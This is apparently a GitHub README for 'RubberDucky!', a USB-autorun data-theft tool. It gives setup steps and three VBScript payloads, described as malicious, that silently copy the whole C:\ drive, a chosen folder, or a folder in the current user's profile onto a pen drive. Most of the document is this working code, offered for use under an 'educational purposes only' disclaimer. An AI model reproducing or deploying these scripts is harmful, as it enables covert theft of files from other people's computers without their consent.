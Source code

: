 # RubberDucky!
* Copyright :copyright: 2023
* Written by: @caiolz10

### [√] Description :

***Ultimate script to execute malicious script in second-plan with VBScript.***

<p align="center">
<a href="https://github.com/cxiolz/RubberDucky"><img title="GitHub version" src="https://img.shields.io/badge/version-1.0-blue" ></a>  
</p>
<img src="https://raw.githubusercontent.com/cxiolz/RubberDucky/Images/Simple%20HomeMade.jpg">
<p align="center">

### Requirements

 - `USB Pen-Drive`
 
 - `USB AutoRun`

APP         | Installation
-----------|--------------
USB AutoRun      | [Download](https://usb-autorun-creator.softonic.com.br/).

 - `VBScript`
 - `Windows 10 +`

### USAGE 
1. Run the notepad
2. Write a new VBScript 
3. Save the notepad to .VBS
4. Run USB AutoRun
5. Put the Malicious File in your PenDrive
6. It's Done! Now you have a RubberDucky

### TYPES OF MALICIOUS SCRIPT
<h1 align="center">Example</h1>

#### This command will run a copy of all data on the computer
```
Set objFSO = CreateObject("Scripting.FileSystemObject")

' Defina o diretório de origem e destino para a cópia dos dados
strSourceFolder = "C:\"
strDestinationFolder = "D:\Backup"

' Função recursiva para copiar todos os arquivos e subpastas
Sub CopyFolder(strSource, strDestination)
    If Not objFSO.FolderExists(strDestination) Then
        objFSO.CreateFolder(strDestination)
    End If

    Set objFolder = objFSO.GetFolder(strSource)
    Set colFiles = objFolder.Files

    ' Copiar todos os arquivos
    For Each objFile in colFiles
        strFile = objFSO.GetFileName(objFile)
        objFSO.CopyFile objFile.Path, strDestination & "\" & strFile
    Next

    ' Copiar todas as subpastas
    For Each objSubfolder in objFolder.Subfolders
        strSubfolder = objFSO.GetFolderName(objSubfolder)
        CopyFolder objSubfolder.Path, strDestination & "\" & strSubfolder
    Next
End Sub

' Chamar a função para iniciar a cópia
CopyFolder strSourceFolder, strDestinationFolder


```
#### This command will run a copy of a specific folder on the computer
```
Set objFSO = CreateObject("Scripting.FileSystemObject")

' Defina o diretório de origem e destino para a cópia dos dados
strSourceFolder = "C:\Caminho\para\pasta\origem"
strDestinationFolder = "D:\Caminho\para\pasta\destino"

' Verificar se a pasta de origem existe
If objFSO.FolderExists(strSourceFolder) Then
    ' Verificar se a pasta de destino existe, caso contrário, criar
    If Not objFSO.FolderExists(strDestinationFolder) Then
        objFSO.CreateFolder(strDestinationFolder)
    End If

    ' Obter os arquivos da pasta de origem
    Set objFolder = objFSO.GetFolder(strSourceFolder)
    Set colFiles = objFolder.Files

    ' Copiar cada arquivo para a pasta de destino
    For Each objFile in colFiles
        strFile = objFSO.GetFileName(objFile)
        objFSO.CopyFile objFile.Path, strDestinationFolder & "\" & strFile, True
    Next

    WScript.Echo "A cópia de dados foi concluída com sucesso."
Else
    WScript.Echo "A pasta de origem não existe."
End If


```
#### This command will run a copy of a specific folder on the computer inside the currently logged in users folder.

```
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objShell = CreateObject("WScript.Shell")

' Obter o caminho da pasta de usuários
strUserProfile = objShell.ExpandEnvironmentStrings("%USERPROFILE%")

' Definir o caminho da pasta de origem e destino
strSourceFolder = strUserProfile & "\Caminho\para\pasta\origem"
strDestinationFolder = "D:\Caminho\para\pasta\destino"

' Verificar se a pasta de origem existe
If objFSO.FolderExists(strSourceFolder) Then
    ' Verificar se a pasta de destino existe, caso contrário, criar
    If Not objFSO.FolderExists(strDestinationFolder) Then
        objFSO.CreateFolder(strDestinationFolder)
    End If

    ' Obter os arquivos da pasta de origem
    Set objFolder = objFSO.GetFolder(strSourceFolder)
    Set colFiles = objFolder.Files

    ' Copiar cada arquivo para a pasta de destino
    For Each objFile in colFiles
        strFile = objFSO.GetFileName(objFile)
        objFSO.CopyFile objFile.Path, strDestinationFolder & "\" & strFile, True
    Next

    WScript.Echo "A cópia de dados foi concluída com sucesso."
Else
    WScript.Echo "A pasta de origem não existe."
End If

```

### DISCLAIMER
                                       TO BE USED FOR EDUCATIONAL PURPOSES ONLY

The use of the RubberDucky! is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program. 
